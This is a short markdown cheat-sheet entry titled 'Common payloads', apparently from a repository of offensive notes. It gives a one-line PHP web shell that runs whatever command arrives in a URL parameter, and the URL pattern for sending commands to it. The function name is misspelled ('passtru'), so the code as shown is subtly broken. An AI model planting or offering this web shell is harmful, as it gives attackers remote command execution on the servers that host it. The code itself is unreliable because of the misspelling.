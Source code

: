 # Common payloads

## PHP RCE
```php
<?php
  passtru($_GET['KEY HERE']);
?>
```
Then, to run a command:
```
https://domain.com/filename.php?<INSERT KEY HERE>=<COMMAND>
```

